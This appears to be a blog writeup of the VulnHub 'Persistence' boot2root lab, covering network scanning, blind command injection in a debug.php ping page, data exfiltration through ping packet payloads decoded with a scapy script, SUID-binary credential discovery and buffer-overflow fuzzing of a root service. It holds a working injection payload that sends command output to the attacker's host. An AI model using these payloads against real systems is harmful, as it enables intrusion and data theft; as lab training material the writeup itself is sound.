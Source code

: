 ```yaml
---
layout: post
title: "Persistence boot2root writeup"
description: "Persistence boot2root writeup"
category: writeups
tags: [boot2root, vulnhub]
---
```

Initial recon shows that only one port is open with a web server running

{% highlight bash %}
root@kali:~# netdiscover -i eth0
Currently scanning: 192.168.70.0/16   |   Screen View: Unique Hosts

1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.2.105   00:00:de:ad:be:ef      1      42  Unknown vendor
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64

{% endhighlight %}
Browsing to the web server, there is a static page with an image.
After a little bit of enumeration we find one other page on the web server(debug.php).
{% highlight bash %}
root@kali:~# nikto -h 192.168.2.105 -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.2.105
+ Target Hostname:    192.168.2.105
+ Target Port:        80
+ Start Time:         2016-06-12 00:50:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ Server leaks inodes via ETags, header found with file /, fields: 0x531fe71e 0x187 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ /debug.php: Possible debug directory/program found.
+ 26171 requests: 6 error(s) and 6 item(s) reported on remote host
+ End Time:           2016-06-12 00:51:18 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}
Browsing to the page we find a web page which allows us to ping an inputted IP address. <img src="{{site.url}}/assets/debug_php.png">
I was able to verify that the ping command was working by running a packet capture when I submitted my query
{% highlight bash %}
root@kali:~# tcpdump -i eth0 'icmp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
00:53:29.550594 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 1, length 64
00:53:29.550607 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 1, length 64
00:53:30.550244 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 2, length 64
00:53:30.550267 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 2, length 64
00:53:31.550275 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 3, length 64
00:53:31.550297 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 3, length 64
00:53:32.550300 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 4, length 64
00:53:32.550320 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 4, length 64
{% endhighlight %}
After experimenting with various inputs I found that you can inject commands by appending a semicolon and adding additional commands.
The only issue is we have blind command injection as the page does not return the output of the commands.
After reading the man page for ping, there is one interesting arguments which can be used to transmit our command output.
The "-p" ping argument allows you specify 16 bytes to fill out the packet you send.
By abusing the "-p" argument and encoding the results of a command we have a working a shell.
Initially, I was trying to transmit 16 bytes at a time but faced issues when decoding a payload which was smaller than 16 bytes.
I gave up transmitting 16 bytes at a time and ended up only transmitting 1 byte at a time.
The below command will stop the first command, execute a command of our choosing and encode the command results in a series of ping packets
{% highlight bash %}
;PAYLOADS=$(ls -l 2>&1 | xxd -c 16 -ps); for PAYLOAD in $PAYLOADS; do ping -c 1 -p $PAYLOAD 192.168.2.103; done
{% endhighlight %}
Initially I was thinking of decoding the ping packets using a shell script with tshark but settled with scapy.
I hacked together the following script with will capture only ping packets then decode and print the packets payload.
{% highlight python %}
#!/usr/bin/env python2
from scapy.all import *

while True:
    packetcapture = sniff(timeout=1, filter='icmp[icmptype] == 8')
    for packet in packetcapture:
        if packet.haslayer(ICMP) and packet.getlayer(ICMP).type == 8:
            sys.stdout.write(packet.getlayer(ICMP).load[8])
{% endhighlight %}
The script will output your command output similar to the following.
{% highlight python %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
uid=498(nginx) gid=498(nginx) groups=498(nginx)
Linux persistence 2.6.32-431.5.1.el6.i686 #1 SMP Tue Feb 11 21:56:33 UTC 2014 i686 i686 i386 GNU/Linux
/usr/share/nginx/html
total 160
-rwxr-xr-x. 1 root root    439 Mar 17  2014 debug.php
-rw-r--r--. 1 root root    391 Mar 12  2014 index.html
-rw-r--r--. 1 root root 146545 Mar 12  2014 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17  2014 sysadmin-tool
{% endhighlight %}
After getting the ping decode script working, I explored the file system a little bit.
It appeared that nginx was running inside of a chroot with only a few commands avaliable to us.
It also appeared that there was a local firewall dropping traffic.
I ended up downloading the interesting looking 'sysadmin-tool' binary which was being hosted and started investigating.
What was interesting is that that binary has the SUID bit set.
I ran strings against the binary which revealed the following interesting strings:
{% highlight bash %}
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
{% endhighlight %}
It appears that the binary will disable the local firewall and provide login credentials.
I proceeded to run the binary and expected it disabled the local firewall and provided provided login credentials.
{% highlight bash %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
Service started...
Use avida:dollars to access.
{% endhighlight %}
After a quick port scan, we see that SSH is now open. If you SSH in using the provided credentials you'll be dropped into a rbash shell.
{% highlight bash %}
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open 192.168.2.105:22  ttl 64
TCP open                     ssh[   22]         from 192.168.2.105  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64
{% endhighlight %}
Looking around you can see there is a custom program named "wopr" running as root.
{% highlight bash %}
-rbash-4.1$ ps aux | grep wopr
root      1092  0.0  0.0   2004   408 ?        S    05:54   0:00 /usr/local/bin/wopr
avida     2149  0.0  0.0   4356   732 pts/0    S+   06:48   0:00 grep wopr
{% endhighlight %}
I proceeded to download the binary and check for bufferoverflows.
{% highlight console %}
root@kali:~# ssh avida@192.168.2.105 "cat /usr/local/bin/wopr" > wopr
avida@192.168.2.105's password:
root@kali:~# ./wopr
[+] bind complete
[+] waiting for connections
[+] logging queries to $TMPLOG
[+] got a connection
*** stack smashing detected ***: ./wopr terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x6929b)[0xf75f329b]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x37)[0xf7682eb7]
/lib/i386-linux-gnu/libc.so.6(+0xf8e78)[0xf7682e78]
./wopr[0x80487dc]
[0x41414141]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fe:01 1705762                            /root/wopr
08049000-0804a000 r--p 00000000 fe:01 1705762                            /root/wopr
0804a000-0804b000 rw-p 00001000 fe:01 1705762                            /root/wopr
084b4000-084d5000 rw-p 00000000 00:00 0                                  [heap]
f7589000-f758a000 rw-p 00000000 00:00 0
f758a000-f773b000 r-xp 00000000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773b000-f773c000 ---p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773c000-f773e000 r--p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773e000-f773f000 rw-p 001b3000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773f000-f7742000 rw-p 00000000 00:00 0
f7747000-f7763000 r-xp 00000000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7763000-f7764000 rw-p 0001b000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7764000-f7765000 rw-p 00000000 00:00 0
f7765000-f7768000 rw-p 00000000 00:00 0
f7768000-f776b000 r--p 00000000 00:00 0                                  [vvar]
f776b000-f776d000 r-xp 00000000 00:00 0                                  [vdso]
f776d000-f778f000 r-xp 00000000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f778f000-f7790000 r--p 00021000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f7790000-f7791000 rw-p 00022000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
ffca8000-ffcc9000 rw-p 00000000 00:00 0                                  [stack]
root@kali:~# python -c 'print "A"*1024' | nc localhost 3333
[+] hello, my name is sploitable
[+] would you like to play a game?
> [+] yeah, I don't think so
{% endhighlight %}
# TODO: Build a working exploit
